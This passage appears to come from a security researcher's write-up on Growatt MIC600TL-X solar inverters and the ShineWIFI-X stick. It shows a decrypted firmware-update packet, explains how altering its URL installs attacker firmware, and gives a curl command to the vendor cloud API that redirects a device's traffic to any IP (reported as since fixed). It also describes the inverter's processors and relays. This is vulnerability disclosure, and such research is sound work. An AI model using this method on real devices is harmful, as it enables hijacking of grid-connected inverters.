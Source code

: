 Here is the "decrypted" message:

```
Offset(h) 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F

00000000  00 01 00 06 00 69 01 18 58 47 44 xx xx xx xx xx  .....i..XGDXXXXX
00000010  xx xx 00 00 00 00 00 00 00 00 00 00 00 00 00 00  XX..............
00000020  00 00 00 00 00 00 00 50 00 45 31 23 74 79 70 65  .......P.E1#type
00000030  30 32 23 68 74 74 70 3A 2F 2F 63 64 6E 2E 67 72  02#http://cdn.gr
00000040  6F 77 61 74 74 2E 63 6F 6D 2F 75 70 64 61 74 65  owatt.com/update
00000050  2F 64 65 76 69 63 65 2F 4E 65 77 2F 47 48 41 41  /device/New/GHAA
00000060  31 30 2F 47 48 41 41 31 30 78 78 2E 68 65 78     10/GHAA10xx.hex
```

A full url of the update image is transmitted to the device, which will use a `http GET` command to download it. By manipulating the url, a manipulated firmware can be downloaded and installed in the device. Instead of a domain name, an IP address (v4) can be used too.

Knowing that, a packet can be craftet, commanding the device to download and install a firmware from an attacker controlled source.

### Redirect the traffic to an attacker-controlled machine

A cloud API can be used to redirect the *device <> cloud* traffic from the ShineWIFI-X stick to *any* IP v4 address. Valid session cookies and the serial number of the targeted ShineWIFI-X stick are needed:

```
curl 'https://server.growatt.com/ftp.do' -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' -H 'cookie: JSESSIONID=X; SERVERID=X' -H 'user-agent: okhttp' --data-raw 'action=setDatalogParam&dataLogSn=XGDXXXXXXX&paramType=1&param_1=x.x.x.x&param_2=' 
```
> [📄NOTE📄]
> Missing API authorization has been fixed.

After this command, the targeted ShineWIFI-X stick tries to connect to the given IP.

### Device Architecture

The Growatt MIC600TL-X inverter contains different processor systems. The "general purpose" processor is an arm based Gigadevice CPU (GD32F305VCT6). Most of the inverter related operations (switching on and off the transistors and relay, monitoring the voltages) are handled by a TI DSP TM320F28035. This DSP controls part of the critical operations via dedicated pins. On top of that, the Growatt MIC600TL-X implements an additional microcontroller (either STM32F042K4T6 OR Gigadevice GD32E230K4T6) called MCU in this report, which adds a redundant safety measure: there are two grid side relays in series. One is controlled by the TI DSP, the other by the MCU. 
The CPU communicates with the DSP via a galvanic isolated UART. The DSP communicates with the MCU via a SPI bus.
Here is a simplified block diagram of the device: 

![System](https://raw.githubusercontent.com/veganmosfet/SecureWatt/main/pics/block.png)

Here is a picture of the main board:

![Board](https://raw.githubusercontent.com/veganmosfet/SecureWatt/main/pics/board.jpg)
